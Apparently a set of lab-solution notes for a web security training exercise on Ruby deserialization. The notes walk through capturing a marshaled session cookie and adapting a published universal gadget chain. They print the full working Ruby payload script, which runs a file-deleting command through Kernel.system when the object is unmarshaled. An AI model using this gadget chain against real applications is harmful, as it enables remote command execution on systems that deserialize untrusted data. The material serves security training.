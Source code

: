 Tweaking the code:
- may require some basic understanding of the language and framework
- and you might sometimes need to serialize the object yourself
- but this approach is still considerably less effort than building an exploit from scratch

#### Exploiting Ruby deserialization using a documented gadget chain
- Log in to your own account and notice that the session cookie contains a serialized ("marshaled") Ruby object. Send a request containing this session cookie to Burp Repeater.
- Browse the web to find the `Universal Deserialisation Gadget for Ruby 2.x-3.x` by `vakzz` on `devcraft.io`. Copy the final script for generating the payload.
  https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html
- Copy the last script
- Modify the script as follows:
	- Change the command that should be executed from `id` to `rm /home/carlos/morale.txt`.
	- Replace the final two lines with `puts Base64.encode64(payload)`. 
	  This ensures that the payload is output in the correct format for you to use for the lab.
	=>
	
```ruby
# Autoload the required classes
Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```
